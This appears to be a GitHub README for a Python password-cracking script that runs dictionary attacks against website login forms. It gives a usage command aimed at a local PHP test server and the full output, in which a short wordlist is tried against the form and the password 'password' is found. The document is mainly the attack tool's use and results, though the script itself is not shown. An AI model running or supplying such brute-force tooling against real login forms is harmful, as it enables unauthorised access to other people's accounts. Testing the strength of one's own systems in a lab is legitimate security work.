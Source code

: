 # Password Cracker
## Python script for dictionary attacks on websites login forms.

# Usage:
	`
	cd website
	php -S localhost:8000 &
	cd cracker
	python cracker.py "http://localhost:8000/" "passes.txt" "username" "submit" "username?password?submit" "Username or password is invalid"
	`
 # Output:
	`
	Data correctly loaded!
	['superstronkpassword', 'toor', 'obsd', '12345678', 'password', '']
	Data correctly prepared!
	[('username', 'username', 'password', 'superstronkpassword', 'submit', 'submit'), ('username', 'username', 'password', 'toor', 'submit', 'submit'), ('username', 'username', 'password',
	'obsd', 'submit', 'submit'), ('username', 'username', 'password', '12345678', 'submit', 'submit'), ('username', 'username', 'password', 'password', 'submit', 'submit'), ('username', 'username', 'password', '', 'submit', 'submit')]
	[ 1/6 ] Sending  ('username', 'username', 'password', 'superstronkpassword', 'submit', 'submit') for http://localhost:8000/
	[ 2/6 ] Sending  ('username', 'username', 'password', 'toor', 'submit', 'submit') for http://localhost:8000/
	[ 3/6 ] Sending  ('username', 'username', 'password', 'obsd', 'submit', 'submit') for http://localhost:8000/
	[ 4/6 ] Sending  ('username', 'username', 'password', '12345678', 'submit', 'submit') for http://localhost:8000/
	[ 5/6 ] Sending  ('username', 'username', 'password', 'password', 'submit', 'submit') for http://localhost:8000/
	Password found!
	Login: username
	Password: password
	[ 6/6 ] Sending  ('username', 'username', 'password', '', 'submit', 'submit') for http://localhost:8000/
	`

